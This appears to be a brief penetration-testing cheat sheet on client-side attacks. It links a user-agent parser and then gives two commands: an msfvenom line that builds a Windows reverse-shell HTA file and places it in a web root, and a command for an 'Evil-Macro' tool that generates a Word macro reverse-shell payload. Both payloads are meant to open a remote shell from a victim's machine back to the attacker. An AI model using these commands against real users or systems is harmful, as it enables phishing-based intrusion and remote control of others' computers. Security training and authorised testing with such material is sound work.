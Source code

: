 ## Client-Side Attacks
### HTA Attack in Action

-> get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

### Microsoft Word Macro Attack
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/
